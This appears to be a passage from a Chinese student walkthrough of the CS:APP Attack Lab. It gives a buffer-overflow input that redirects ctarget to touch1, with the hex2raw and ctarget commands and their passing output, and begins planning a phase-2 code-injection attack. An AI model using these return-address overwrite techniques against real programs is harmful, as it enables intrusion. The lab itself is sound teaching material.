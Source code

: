```markdown
   0x00000000004017dd <+29>:    call   0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    call   0x400e40 <exit@plt>
End of assembler dump.
```
Touch1的入口地址为0x4017c0。
机器为小端法表示，因此我们输入的字符转化为16进制后应该为（所需的为最后三个字符，其他可以任填）：
```markdown
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
C0 17 40
```
一个地址等于一个字节，一个字节存储一个字符,一个字节对应用两位16进制表示。
用hex2raw将目标码还原为输入的字符串。
在当前环境同目录下创建“exploit.txt”，在里面输入“30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 c0 17 40”
保存后，在终端输入
```markdown
root@cc661f098d2e:/csapp/3attack# ./hex2raw < exploit.txt > exploit-raw.txt
root@cc661f098d2e:/csapp/3attack# ./ctarget -i exploit-raw.txt -q
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 C0 17 40
```
成功！
## phase2
根据题意，运行ctarget跳转到touch2，并完成验证即可过关。以下是touch2的c呈现
```markdown
void touch2(unsigned val)
 {
 vlevel = 2; /* Part of validation protocol */
 if (val == cookie) {
 printf("Touch2!: You called touch2(0x%.8x)\n", val);
 validate(2);
 } else {
printf("Misfire: You called touch2(0x%.8x)\n", val);
fail(2);
}
exit(0);
}
```
前置知识：程序的运行过程是存储在一个区域，而rsp指向该区域的最低地址（栈顶）。（栈向低地址处增长，调用函数时，rsp减小，开辟一定的空间（栈帧）存储函数的局部变量）Ret指令为pop （rsp）给rip以指示下一条代码所在地址。
本题我的cookie为：0x59b997fa
思路：传入val=cookie，然后跳转到函数touch2。
按照level 1只要覆盖返回处的地址即可跳转，可本题在getbuf的ret前需要先执行movq $0x59b997fa,%rdi 。而getbuf所在与存储传入数据所在地并不相邻，因此溢出攻击只能覆盖getbuf的ret，因此我们不能直接将该处的返回值设备touch2的地址，而是需要将该处的返回值设为存储接收值的地址，在该处通过修改rdi完成数据的输入。
